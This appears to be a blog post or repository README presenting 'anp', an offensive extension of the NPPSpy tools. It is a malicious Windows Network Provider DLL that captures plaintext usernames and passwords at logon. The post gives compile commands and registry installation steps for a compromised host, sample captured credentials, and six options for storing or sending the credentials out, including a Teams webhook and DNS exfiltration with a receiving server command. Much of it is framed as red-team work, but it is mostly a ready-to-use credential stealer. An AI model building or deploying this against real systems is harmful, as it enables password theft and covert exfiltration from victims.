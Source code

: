 ```yaml
---
layout: post
title: anp - Playing with Network Providers
excerpt_separator: <!--more-->
---
```


NPPSpy and NPPSPy2 are great tools to retrieve user credentials in many cases. In this repository, I will add some encryption and exfiltration methods to these tools by gtworek.

<!--more-->


Repository: [https://github.com/ricardojoserf/anp](https://github.com/ricardojoserf/anp)

<br>

The original tools, NPPSpy and NPPSpy2, manipulate the authentication process by using a malicious DLL which helps offensive professionals capturing usernames and passwords before encryption. This is amazing when the system has enabled protections such as PPL or Credential Guard but the security software is not monitoring the creation/manipulation of registry keys (not so typical but it is interesting to check the Blue Team detects it). 

This repository are tests to create Network Providers based on the mentioned tools by [gtworek](https://github.com/gtworek). All credit goes to the original author - I'm simply adding some functionality to explore what works best for me, but I thought it could be interesting for someone so I decided to make it public :)

I will use Base64-encoding or AES-encryption in all examples with the following JSON-like structure to store the information: 

```json
{"timestamp":"TIMESTAMP","operation":"OPERATION","domain":"DOMAIN","username":"USERNAME","password":"PASSWORD"}
```

To use it, simply:

- Compile the DLL (the easiest way is using "x64 Native Tools Command Prompt for VS" cmd)

- Create or update the registry keys (check the [installation](#installation) section)

- Wait until a user logs in or updates its password

<br>

## 1. Store in a text file + Base64-encoding

The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" 1_textfile_base64.c crypt32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9ORVciLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InEifQ==
```

Which decoded is:

```json
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 2. Store in a text file + AES-encryption

The default path is "C:\Windows\Task\default.txt" and the default AES password is "TEST1234", but you can customize it using the macros /DFILE_PATH and /DAES_PWD:

```powershell
cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" /DAES_PWD=\"TEST1234\" 2_textfile_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```bash
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

You can decrypt it using *decrypt_aes.py*:

```bash
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv32TknPnleRUL8eUb4AtRjCOyN9P+tICa7t0BMQAE7FZt+Z+tGpq0unJOsvDQ2VGvcG1RzLL/QrMPUUYvIM1BcEmVPYI5/KZQpr5p+8dX2yrE40QEoN79OodAAflEbh0W
python decrypt_aes.py gT5LdF8L+zoDlUKBYU0fASbUrBst/hsTltI8aqUyQiGcvev+CtoxnIV53AEM2hdv0Euwo4lOajrIKowzxM2qflL7XE8KeenZ/7RHu2f7q0xnu/Cl9iGiwxWz9tkCZjD0BL5j9ysFRPla4tLGU2ThIlBeYQ9dVLGiKpZbtX8liXygU4A5o20iROUMR9Ajtojc
```

And you get:

```json
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 11:20:18","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>

## 3. Send to Teams webhook + Base64-encoding

There is not a default webhook url, you have to set the value using the macro /DWEBHOOK_URL:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" 3_webhook_base64.c crypt32.lib wininet.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 1:

![imgteams1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams1.png)

<br>

## 4. Send to Teams webhook + AES-encryption

You have to set the webhook url value using the macro /DWEBHOOK_URL, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DWEBHOOK_URL=L\"https://...\" /DAES_PWD=\"TEST1234\" 4_webhook_aes.c crypt32.lib wininet.lib advapi32.lib /link /OUT:anp.dll
```

The information is received in a similar way to option 2:

![imgteams2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_teams2.png)


<br>

## 5. DNS exfiltration + Base64-encoding

This one is not ideal, as the maximum length for a subdomain is 63 characters so it requires multiple DNS queries. As a result, the logon process is delayed by a few seconds, making the slowdown noticeable in some cases.

There is not a default subdomain, you have to set the value using the macro /DSUBDOMAIN:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" 5_dns_base64.c crypt32.lib /link /OUT:anp.dll
```

You can use [this repository](https://github.com/ricardojoserf/dns-exfiltration) for creating the necessary subdomains and the *dns_server.py* script to decode the received values.

```bash
python3 dns_server.py .SUBDOMAIN.DOMAIN.COM
```

![imgdns1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns1.png)

It also generates a log file with the subdomains and decoded values:

![imgdns2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns2.png)

<br>

## 6. DNS exfiltration + AES-encryption

You have to set the subdomain value using the macro /DSUBDOMAIN, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:

```powershell
cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" /DAES_PWD=\"TEST1234\" 6_dns_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
```

You can use the *dns_server.py* script again to receive resolved domains and store it in a file:

![imgdns3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns3.png)

And the *decrypt_aes.py* script to decrypt the values:

![imgdns4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/anp/Screenshot_dns4.png)

<br>

--------------------

## Installation

You can follow the instructions in [NPPSpy](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy) by [gtworek](https://github.com/gtworek), which can be summed up to:

- Copy the DLL to a path in the compromised system.

- Add a network provider name at the end of the "ProviderOrder" in `HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order`. For this example I will use "anp".

- Create a key with the format `HKLM\SYSTEM\CurrentControlSet\Services\<CHOSEN_NAME>\NetworkProvider`, for the example I will use `HKLM\SYSTEM\CurrentControlSet\Services\anp\NetworkProvider`.

  - Class = [REG_DWORD]2 - Always this value.

  - ProviderPath = [REG_EXPAND_SZ]"C:\Users\ricardo\Desktop\test.dll" - Path to the DLL.

  - Name = [REG_SZ]"anp" - The name you chose, in this case I will use "anp".
 
<br>

--------------------

## TO-DOs

- Implement more exfiltration techniques (PRs are welcome!)


<br>

--------------------

## References

- [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek) - Again, these programs are just adding some functionality to NPPSpy(2) code.

<br>
